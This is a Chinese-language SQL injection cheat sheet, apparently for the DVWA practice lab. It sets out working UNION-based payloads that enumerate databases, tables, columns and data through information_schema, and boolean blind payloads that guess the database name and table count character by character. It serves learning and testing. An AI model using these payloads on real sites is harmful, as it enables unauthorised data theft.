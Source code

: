 ### 【Union联合注入】

* **列数据库名**
  * 列出当前使用的数据库名
  ```sql
  id=-1 union select 1,database(),2,3,4
  ```
  
* **列表名**
  * 列出所有数据库中的表名
  ```sql
  id=-1 union select 1,group_concat(table_name),2,3,4 from information_schema.tables where table_schema=’要查询的数据库名称‘  
  ```
  
* **列出列名**
  * 列出该表的所有列名
  ```sql
  id=-1 union select 1,group_concat(columns_name),2,3,4 from information_schema.columns where table_name=’要查询列的表名‘ 
  ```
  
* **列出每一列信息**
  ```sql
  id=-1 union select 1,group_concat(对应列名1，对应列名2),2,3,4 from 所要查找的表名
  ```
  
### 【bool盲注】

* **猜解当前数据库名**
  * 猜解数据库名长度
  ```sql
  1' and length(database())=1 #
  1' and length(database())=2 #
  1' and length(database())=3 # 
  1' and length(database())=4 # （直到页面出现错误）
  ```
  
  * ⼆分法逐字猜解
  ```sql
  1' and ascii(substr(database(),1,1))>97 #，显⽰存在，说明数据库名的第⼀个字符的ascii值⼤于 97（⼩写字母a的ascii值）；
  ```
  重复以上步骤直到得出完整的数据库名dvwa
  
* **猜解表名**
  * 猜解表的数量
  ```sql
  1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 # 显⽰不存在
  ```
  ```sql
  1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # 显⽰存在
  ```
  原理是使用count()这个函数来判断table_name这个表的数量有几个
  然后后面有一个where判断来指定是当前数据库
  在末尾有一个 =1 ，意思是判断表有1个，正确那么页面返回正常，错误即返回不正常
  